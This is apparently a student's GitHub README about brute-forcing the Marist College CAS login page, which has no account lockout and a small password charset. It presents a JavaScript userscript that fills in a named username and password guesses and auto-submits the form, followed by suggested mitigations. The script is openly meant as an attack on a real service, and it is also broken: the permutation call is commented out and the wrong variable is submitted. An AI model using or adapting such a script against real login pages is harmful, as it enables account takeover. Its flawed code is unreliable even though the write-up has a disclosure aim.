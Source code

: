 # Marist Login Script

## Daniel Gisolfi

#### Disclamer

I have no intention of exploiting this script in any way to login to another user`s account. I will only be using this on my own marist account to test the possibility of someone using this method to steal user information and logins.

### Issue Description

When loging onto marist services, the user is presented with a log on page working at the help desk I noticed a way to exploit the lack of an account lock in order to force log into any account. The current setup for a marist account login is not secure, a key reason for this the limted set of possible passwords a user can have. A marist account must be 6-8 characters long and contain only lower case letters with no special characters. All together this reduces the possible passwords to be comprised of only 36 characters (lowercase letters and numbers 0-9). As a result I have been able to write a script to brute force its way into an account due to the lack of a account lock when more than a few login attempts fail.

**LoginScript.js**

```javascript
// ==UserScript==
if (window.location == 'https://login.marist.edu/cas/login') {
    if(!document.getElementById('password').value){
        alert("Starting");
        var charset = "abcdefghijklmnopqrstuvwxyz0123456789";
        // permutations = permut(charset);
        for (var permutation of permutations){
            //Place password attempt in password textbox
            username = "stdg1";
            document.getElementById('username').value = username;
            document.getElementById('password').value = permutations;
            //Press the submit button
             document.getElementsByName('submit')[0].click();
        }
    }
}

//Heaps Algorithm
function permut(string) {
    if (string.length < 2) return string; //break condition
    var permutations = []; //array to hold permutations
    for (var i=0; i<string.length; i++) {
        var char = string[i];
        // Eliminate duplicates:
        if (string.indexOf(char) != i) // if char was used already
            continue;           // skip it this time
        var remainingString = string.slice(0,i) + string.slice(i+1,string.length);
        for (var subPermutation of permut(remainingString))
            permutations.push(char + subPermutation);
    }
    return permutations;
}
```



### Possible Solutions

1. Add a security measure to lock an account and require a password reset after x amount of login attempts
2. Increase the possible password character options to make a brute force method of cracking passwords far more difficult
3. Add a layer of detection to detect when a script is attempting to force its way into an account
